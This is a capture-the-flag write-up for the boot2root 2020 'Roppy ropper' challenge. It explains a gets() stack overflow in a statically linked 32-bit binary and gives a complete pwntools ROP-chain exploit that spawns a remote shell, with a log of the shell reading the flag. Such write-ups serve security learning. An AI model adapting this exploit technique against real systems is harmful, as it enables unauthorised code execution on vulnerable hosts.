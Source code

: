 # boot2root 2020

## Roppy ropper

> 467
>
> I love ropes do you?
>
> `nc 35.238.225.156 1004`
>
> Author: TheBadGuy
> 
> [lsass](lsass)

Tags: _pwn_ _x86_ _remote-shell_ _bof_ _rop_


## Summary

Static ROP binary, parts included, no assembly required.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

No PIE or Canary (where is matters, see below); easy easy ROP.


### Decompile with Ghidra

```c
void list_me_like_crazy(void)
{
  char *pcVar1;
  char local_11 [9];
  
  puts("(list_me_like_crazy)");
  puts("Is this lsass I dont understand :)");
  puts("Give me your arguments:");
  gets(local_11);
  pcVar1 = strchr(local_11,0x2f);
  if (pcVar1 == (char *)0x0) {
    run_command(local_11);
  }
  else {
    puts("Hey sorry that is not allowed");
  }
  return;
}
```

When loading up in Ghidra the first thing you'll notice is how long it takes Ghidra to analyze the binary because it is statically linked:

```
lsass: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked,
BuildID[sha1]=29ace8e7875f5edabe4ce83e83ec1aebd4cfa48c, for GNU/Linux 3.2.0, not stripped
```

Like [Welcome to Pwn](https://github.com/datajerk/ctf-write-ups/tree/master/boot2root2020/welcome_to_pwn), `gets` is the vulnerability, but since we have a binary full of gadgets (static linked) using something like `ropper` (hint in title) is all we need:

```
ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
```

The output of that prefixed with `0x11` bytes of garbage is all we need to get a shell (`local_11` is `0x11` bytes from the return address on the stack).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./lsass')

if args.REMOTE:
        p = remote('35.238.225.156', 1004)
else:
        p = process(binary.path)

# ropper --file lsass --chain "execve cmd=/bin/sh" --badbytes 0a
IMAGE_BASE_0 = 0x08048000 # da2732480d49a078e666802ee2edcd948700eacaaa48129430ea1ff6d5e8e5c6
rebase_0 = lambda x : p32(x + IMAGE_BASE_0)

rop  = b''
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'//bi'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += b'n/sh'
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a064)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000319b) # 0x0804b19b: pop edi; ret;
rop += p32(0x00000000)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004627d) # 0x0808e27d: mov dword ptr [ebx], edi; pop ebx; pop esi; pop edi; ret;
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += p32(0xdeadbeef)
rop += rebase_0(0x0000101e) # 0x0804901e: pop ebx; ret;
rop += rebase_0(0x0009a060)
rop += rebase_0(0x0001c081) # 0x08064081: pop ecx; add al, 0xf6; ret;
rop += rebase_0(0x0009a068)
rop += rebase_0(0x0004fa95) # 0x08097a95: pop edx; xor eax, eax; pop edi; ret;
rop += rebase_0(0x0009a068)
rop += p32(0xdeadbeef)
rop += rebase_0(0x00001825) # 0x08049825: pop ebp; ret;
rop += p32(0x0000000b)
rop += rebase_0(0x0001aa7e) # 0x08062a7e: xchg eax, ebp; ret;
rop += rebase_0(0x000319a0) # 0x080799a0: int 0x80; ret;

payload  = 0x11 * b'A'
payload += rop

p.sendlineafter('arguments:\n',payload)
p.interactive()
```

As stated in the Analysis section, `0x11` bytes, then ROPchain from `ropper`.

> The above is not 100% `ropper` output, I changed `p` to `p32`, added `b` to strings because I use `python3`, etc... nothing difficult to understand.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/roppy_ropper/lsass'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to 35.238.225.156 on port 1004: Done
[*] Switching to interactive mode
Hey sorry that is not allowed
$ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
$ ls -l
total 688
-r--r--r-- 1 pwnflag pwnflag     35 Dec  6 09:29 flag.txt
-rwsr-xr-x 1 pwnflag pwnflag 698068 Dec  6 09:29 lsass
$ cat flag.txt
b00t2root{R0p_cHa1nS_ar3_tH3_b3st}
```
